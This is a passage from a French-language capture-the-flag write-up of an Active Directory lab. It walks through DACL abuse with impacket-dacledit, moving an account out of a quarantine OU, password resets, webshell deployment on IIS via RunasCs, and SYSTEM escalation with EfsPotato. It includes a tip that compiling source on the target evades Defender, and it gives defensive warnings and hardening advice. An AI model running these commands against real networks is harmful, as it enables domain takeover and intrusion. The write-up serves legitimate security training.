  remove uac sam.brooks -f ACCOUNTDISABLE

# Étape 4 : Shell WinRM
evil-winrm -i 10.0.29.184 -u 'sam.brooks' -p 'Hacked123!'
```





> [!WARNING]
> `WriteDacl` sur un objet AD permet à un attaquant de se donner `FullControl` et de prendre le contrôle total du compte. Ce droit ne devrait être accordé qu'aux administrateurs du domaine. Auditer régulièrement les ACLs AD avec BloodHound ou PingCastle.

---

## 9. Quarantine OU Bypass — web_admin

### 9.1 Contexte

Dans le WIM de `sam.brooks`, un email sur son bureau explique la situation : `web_admin` a été déplacé dans l'OU **QUARANTINE** suite à une suspicion de compromission. Le serveur IIS a ASP.NET activé avec upload `.aspx` possible.



**Le plan :** Utiliser les droits `WriteDacl` d'`emma.hayes` sur l'OU `CITYOPS` pour s'y donner `FullControl`, puis déplacer `web_admin` hors de la quarantine.

### 9.2 Exploitation

```bash
# Étape 1 : FullControl sur CITYOPS
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance \
  -principal 'emma.hayes' \
  -target-dn 'OU=CITYOPS,DC=CITY,DC=LOCAL' \
  'city.local'/'emma.hayes':'!Gemma4James!' -dc-ip 10.0.29.184

# Étape 2 : Déplacer web_admin de QUARANTINE → CITYOPS
cat > /tmp/web_admin.ldif << 'EOF'
dn: CN=WEB ADMIN,OU=QUARANTINE,DC=CITY,DC=LOCAL
changetype: modrdn
newrdn: CN=WEB ADMIN
deleteoldrdn: 1
newsuperior: OU=CITYOPS,DC=CITY,DC=LOCAL
EOF

ldapmodify -H ldap://10.0.29.184 \
  -D 'CN=EMMA HAYES,CN=USERS,DC=CITY,DC=LOCAL' \
  -w '!Gemma4James!' -f /tmp/web_admin.ldif

# Étape 3 : Reset mot de passe
net rpc password "web_admin" 'Hacked123!' \
  -U "city.local"/"emma.hayes"%'!Gemma4James!' -S 10.0.29.184
```

```bash
nxc smb 10.0.29.184 -u 'web_admin' -p 'Hacked123!'
# → [+] city.local\web_admin:Hacked123! ✓
```



> [!WARNING]
> `WriteDacl` sur une OU permet de se donner `FullControl` via dacledit, ouvrant la voie au déplacement d'objets entre OUs. Isoler un compte dans une OU Quarantine ne suffit pas si d'autres comptes ont des droits sur les OUs voisines.

---

## 10. Webshell IIS — Remote Code Execution

### 10.1 Principe

Un **webshell** est un fichier de code déposé sur un serveur web qui permet d'exécuter des commandes système via HTTP. En ASP.NET, un fichier `.aspx` est exécuté par IIS côté serveur.

Le challenge : `web_admin` a les droits d'écriture sur le dossier IIS, mais il n'a pas WinRM. `sam.brooks` a WinRM mais pas les droits sur IIS. La solution est **RunasCs**.

**RunasCs** utilise l'API Windows `CreateProcessWithLogonW` pour exécuter une commande en tant qu'un autre utilisateur (si on connaît son mot de passe), depuis un shell existant, sans interface graphique.

### 10.2 Exploitation

```powershell
# Depuis evil-winrm (sam.brooks)

# Upload des outils
upload RunasCs.exe RunasCs.exe
upload shell.aspx shell.aspx

# RunasCs impersonne web_admin pour copier le webshell dans IIS
.\RunasCs.exe web_admin Hacked123! `
  "cmd.exe /c copy C:\Temp\shell.aspx C:\inetpub\wwwroot\uploads\shell.aspx" `
  --bypass-uac --logon-type 5

# → 1 file(s) copied.
```

```bash
# Test depuis Kali
curl "http://10.0.29.184/uploads/shell.aspx?cmd=whoami"
# → iis apppool\defaultapppool
```




> [!WARNING]
> IIS avec ASP.NET activé et un dossier d'upload accessible à un compte de service crée une surface d'attaque critique. Restreindre les extensions uploadables, ne jamais servir des fichiers exécutables depuis un dossier d'upload, et appliquer le principe de moindre privilège sur les comptes IIS.

---

## 11. Privilege Escalation → SYSTEM (EfsPotato)

### 11.1 SeImpersonatePrivilege

`IIS AppPool` tourne avec un compte de service qui possède **SeImpersonatePrivilege**, un privilège Windows qui permet d'emprunter le token d'identité d'un autre processus qui se connecte à lui.

```bash
curl "http://10.0.29.184/uploads/shell.aspx?cmd=whoami%20/priv"
# → SeImpersonatePrivilege    Enabled
```



### 11.2 EfsPotato — CVE-2021-36942

**EfsPotato** exploite CVE-2021-36942, une vulnérabilité dans le service EFS (Encrypting File System) de Windows :

1. EfsPotato crée un pipe nommé contrôlé par l'attaquant
2. Il force le service EFS (qui tourne en SYSTEM) à se connecter à ce pipe
3. Quand EFS se connecte, il envoie son token SYSTEM
4. EfsPotato capture ce token via `SeImpersonatePrivilege`
5. Il exécute la commande voulue avec ce token SYSTEM

Cette technique appartient à la famille des attaques **Potato** (JuicyPotato, PrintSpoofer, SweetPotato...) qui exploitent toutes `SeImpersonatePrivilege` de façons différentes.

### 11.3 Exploitation

```bash
# Upload du code source C#
# (uploader du .cs plutôt qu'un .exe contourne souvent Defender)
upload efs.cs efs.cs

# Compilation sur la machine avec le compilateur .NET intégré
curl "http://10.0.29.184/uploads/shell.aspx?cmd=C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe%20-out:C:\Temp\efs.exe%20C:\Temp\efs.cs%20-nowarn:1691,618"

# Test
curl "http://10.0.29.184/uploads/shell.aspx?cmd=C:\Temp\efs.exe%20whoami"
```

```
[+] Current user: IIS APPPOOL\DefaultAppPool
[+] Pipe: \pipe\lsarpc
[+] Get Token: 888
[!] process with pid: 1660 created.
==============================
nt authority\system
```



```bash
# Ajouter sam.brooks aux Administrateurs locaux
curl "http://10.0.29.184/uploads/shell.aspx?cmd=C:\Temp\efs.exe%20%22net%20localgroup%20Administrators%20sam.brooks%20/add%22"
```

---


Après avoir ajouté `sam.brooks` aux admins locaux du DC, on récupère le flag root :




---

## Conclusion

### Recommandations

- Ne jamais exposer des adresses email internes sur un site web public
- Ne jamais hardcoder des credentials dans un binaire, même obfusqués
- Bloquer les connexions SMB sortantes et désactiver NTLM (ou restreindre NTLMv2) pour limiter la capture de hash ; activer **SMB Signing** pour empêcher le relais
- Auditer régulièrement les ACLs AD avec **BloodHound**
- Chiffrer et restreindre l'accès aux backups de profils
- Désactiver NTLM ou utiliser **Protected Users** pour les comptes sensibles
- Restreindre les extensions uploadables sur IIS
- Utiliser des **gMSA** pour les comptes de service
- Mettre à jour Windows pour corriger CVE-2021-36942
